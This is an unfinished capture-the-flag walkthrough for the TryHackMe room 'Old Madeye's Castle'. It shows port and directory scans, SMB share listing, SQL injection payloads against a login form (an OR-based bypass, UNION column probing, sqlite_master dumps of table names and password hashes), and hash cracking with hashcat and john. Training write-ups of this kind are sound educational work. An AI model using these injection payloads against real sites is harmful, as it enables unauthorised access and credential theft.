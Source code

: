 # Old Madeye's Castle

**Room Link:** [https://tryhackme.com/room/madeyescastle](https://tryhackme.com/room/madeyescastle)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>





### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
subl /etc/hosts
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://hogwartz-castle.thm/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Browser**

```
Username: 1' or '1'='1'-- -
Password: 1' or '1'='1'-- -
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**List**

```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
1' UNION SELECT null,null,null,null-- -
1' UNION SELECT null,null,null,null,null-- -
```

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





```
' union select group_concat(tbl_name),2,3,4  FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
=' union select group_concat(password),2,3,4  FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'-- 
```

<figure><img src="../../../.gitbook/assets/image (20) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (21) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sed 's/,/\n/g' pass.txt > passwords.txt
```

<figure><img src="../../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python3 hash-id.py c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
```

<figure><img src="../../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**results.txt**

```
c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
e1ed732e4aa925f0bf125ae8ed17dd2d5a1487f9ff97df63523aa481072b0b5ab7e85713c07e37d9f0c6f8b1840390fc713a4350943e7409a8541f15466d8b54
5628255048e956c9659ed4577ad15b4be4177ce9146e2a51bd6e1983ac3d5c0e451a0372407c1c7f70402c3357fc9509c24f44206987b1a31d43124f09641a8d
2317e58537e9001429caf47366532d63e4e37ecd363392a80e187771929e302922c4f9d369eda97ab7e798527f7626032c3f0c3fd19e0070168ac2a82c953f7b
79d9a8bef57568364cc6b4743f8c017c2dfd8fd6d450d9045ad640ab9815f18a69a4d2418a7998b4208d509d8e8e728c654c429095c16583cbf8660b02689905
e3c663d68c647e37c7170a45214caab9ca9a7d77b1a524c3b85cdaeaa68b2b5e740357de2508142bc915d7a16b97012925c221950fb671dd513848e33c33d22e
d3ccca898369a3f4cf73cbfc8daeeb08346edf688dc9b7b859e435fe36021a6845a75e4eddc7a932e38332f66524bd7876c0c613f620b2030ed2f89965823744
dc2a6b9462945b76f333e075be0bc2a9c87407a3577f43ba347043775a0f4b5c1a78026b420a1bf7da84f275606679e17ddc26bceae25dad65ac79645d2573c0
6535ee9d2b8d6f2438cf92da5a00724bd2539922c83ca19befedbe57859ceafd6d7b9db83bd83c26a1e070725f6f336e21cb40295ee07d87357c34b6774dd918
93b4f8ce01b44dd25c134d0517a496595b0b081cef6eb625e7eb6662cb12dd69c6437af2ed3a5972be8b05cc14a16f46b5d11f9e27e6550911ed3d0fe656e04d
9a311251255c890692dc84b7d7d66a1eefc5b89804cb74d16ff486927014d97502b2f790fbd7966d19e4fbb03b5eb7565afc9417992fc0c242870ea2fd863d6d
5ed63206a19b036f32851def04e90b8df081071aa8ca9fb35ef71e4daf5e6c6eab3b3fea1b6e50a45a46a7aee86e4327f73a00f48deb8ae2bf752f051563cc8b
87ac9f90f01b4b2ae775a7cb96a8a04d7ab7530282fd76224ee03eecab9114275540e4b6a2c52e890cf11f62aacb965be0c53c48c0e51bf731d046c5c3182aad
88344d6b7724bc0e6e3247d4912fa755a5a91c2276e08610462f6ea005d16fd5e305dfe566e7f1dd1a98afe1abfa38df3d9697cdc47ecbb26ac4d21349d09ba7
7f67af71e8cbb7188dd187b7da2386cc800ab8b863c9d0b2dce87c98a91b5511330a2ad4f7d73592b50a2a26c26970cfbd22f915d1967cd92569dbf5e24ac77e
8c8702dbb6de9829bcd6da8a47ab26308e9db7cb274b354e242a9811390462a51345f5101d7f081d36eea4ec199470162775c32cb1f4a96351dc385711619671
c809b40b7c3c0f095390f3cd96bb13864b7e8fd1670c6b1c05b1e26151be62782b97391b120cb4a8ee1d0c9b8fffaf12b44c9d084ae6041468ad5f12ec3d7a4e
68b519187b9e2552d555cb3e9183711b939f94dfe2f71bda0172ee8402acf074cc0f000611d68d2b8e9502fa7235c8a25d72da50916ad0689e00cb4f47283e9b
7eea93d53fbed3ba8f2fa3d25c5f16fe5eaff1f5371918e0845d2076a2e952a457390ad87d289bf25f9457032f14bb07dcd625d03f2f5ee5c887c09dc7107a66
e49608634f7de91d19e5e1b906e10c5a4a855a4fe32521f310727c9875e823c82b3e0347b32ef49ea44657e60e771d9e326d40ab60ce3a950145f1a7a79d3124
c063c5215b56091327a1f25e38e2d0a5e6db83cceb0ab29cbb0bedd686c18ee5770bfbbfa0a4ac542c8935b0fb63e30ea0bc0408d3523157d840fdfa54ec8dab
487daab566431e86172ed68f0836f3221592f91c94059a725d2fdca145f97e6258593929c37d0339ca68614a52f4df61953b930585c4968cedaaa836744c52a6
44b1fbcbcd576b8fd69bf2118a0c2b82ccf8a6a9ef2ae56e8978e6178e55b61d491f6fc152d07f97ca88c6b7532f25b8cd46279e8a2c915550d9176f19245798
a86fa315ce8ed4d8295bf6d0139f23ba80e918a54a132e214c92c76768f27ce002253834190412e33c9af4ea76befa066d5bdeb47363f228c509b812dc5d81df
a1f6e38be4bf9fd307efe4fe05522b8c3a9e37fc2c2930507e48cb5582d81f73814ffb543cef77b4b24a18e70e2670668d1a5b6e0b4cb34af9706890bd06bbc9
01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
d17604dbb5c92b99fe38648bbe4e0a0780f2f4155d58e7d6eddd38d6eceb62ae81e5e31a0a2105de30ba5504ea9c75175a79ed23cd18abcef0c8317ba693b953
ac67187c4d7e887cbaccc625209a8f7423cb4ad938ec8f50c0aa5002e02507c03930f02fab7fab971fb3f659a03cd224669b0e1d5b5a9098b2def90082dfdbd2
134d4410417fb1fc4bcd49abf4133b6de691de1ef0a4cdc3895581c6ad19a93737cd63cb8d177db90bd3c16e41ca04c85d778841e1206193edfebd4d6f028cdb
afcaf504e02b57f9b904d93ee9c1d2e563d109e1479409d96aa064e8fa1b8ef11c92bae56ddb54972e918e04c942bb3474222f041f80b189aa0efd22f372e802
6487592ed88c043e36f6ace6c8b6c59c13e0004f9751b0c3fdf796b1965c48607ac3cc4256cc0708e77eca8e2df35b668f5844200334300a17826c033b03fe29
af9f594822f37da8ed0de005b940158a0837060d3300be014fe4a12420a09d5ff98883d8502a2aaffd64b05c7b5a39cdeb5c57e3005c3d7e9cadb8bb3ad39ddb
53e7ea6c54bea76f1d905889fbc732d04fa5d7650497d5a27acc7f754e69768078c246a160a3a16c795ab71d4b565cde8fdfbe034a400841c7d6a37bdf1dab0d
11f9cd36ed06f0c166ec34ab06ab47f570a4ec3f69af98a3bb145589e4a221d11a09c785d8d3947490ae4cd6f5b5dc4eb730e4faeca2e1cf9990e35d4b136490
9dc90274aef30d1c017a6dc1d5e3c07c8dd6ae964bcfb95cadc0e75ca5927faa4d72eb01836b613916aea2165430fc7592b5abb19b0d0b2476f7082bfa6fb760
4c968fc8f5b72fd21b50680dcddea130862c8a43721d8d605723778b836bcbbc0672d20a22874af855e113cba8878672b7e6d4fc8bf9e11bc59d5dd73eb9d10e
d4d5f4384c9034cd2c77a6bee5b17a732f028b2a4c00344c220fc0022a1efc0195018ca054772246a8d505617d2e5ed141401a1f32b804d15389b62496b60f24
36e2de7756026a8fc9989ac7b23cc6f3996595598c9696cca772f31a065830511ac3699bdfa1355419e07fd7889a32bf5cf72d6b73c571aac60a6287d0ab8c36
8f45b6396c0d993a8edc2c71c004a91404adc8e226d0ccf600bf2c78d33ca60ef5439ccbb9178da5f9f0cfd66f8404e7ccacbf9bdf32db5dae5dde2933ca60e6 
```





<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sed 's/,/\n/g' usernames.txt > users.txt 
```

**users.txt**

```
Lucas Washington
Harry Turner
Andrea Phillips
Liam Hernandez
Adam Jenkins
Landon Alexander
Kennedy Anderson
Sydney Wright
Aaliyah Sanders
Olivia Murphy
Olivia Ross
Grace Brooks
Jordan White
Diego Baker
Liam Ward
Carlos Barnes
Carlos Lopez
Oliver Gonzalez
Sophie Sanchez
Maya Sanders
Joshua Reed
Aaliyah Allen
Jasmine King
Jonathan Long
Samuel Anderson
Julian Robinson
Gianna Harris
Madelyn Morgan
Ella Garcia
Zoey Gonzales
Abigail Morgan
Joseph Rivera
Elizabeth Cook
Parker Cox
Savannah Torres
Aaliyah Williams
Blake Washington
Claire Miller
Brody Stewart
Kimberly Murphy
```



Stopped here

<figure><img src="../../../.gitbook/assets/image (392).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>









Notes

<figure><img src="../../../.gitbook/assets/image (388).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat --stdout -r /opt/hashcat/rules/best64.rule spellnames.txt > possible_passwords.txt
john --format=raw-sha512 results.txt --wordlist=possible_passwords.txt
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

###

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I used /usr/share/dirb/wordlists/common.txt as my payload

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>













###

###

###

###

###

###

###

###

###

###

###

###

###

###

###

### **TCP/445  - SMB**

**Kali**

```
smbclient -L //$VICTIM/
smbclient -L //$VICTIM/sambashare
smbclient \\\\$VICTIM\\sambashare
smb: \> ls  
smb: \> get .notes.txt  
smb: \> get spellnames.txt
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>















